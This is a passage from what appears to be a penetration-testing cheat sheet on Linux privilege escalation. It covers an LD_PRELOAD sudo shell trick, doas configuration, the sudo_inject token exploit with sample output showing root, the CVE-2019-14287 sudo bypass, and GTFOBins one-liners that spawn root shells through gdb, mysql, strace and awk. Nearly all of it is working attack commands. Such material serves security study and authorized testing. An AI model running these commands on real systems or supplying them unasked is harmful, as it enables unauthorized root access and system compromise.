 Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)


### CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'
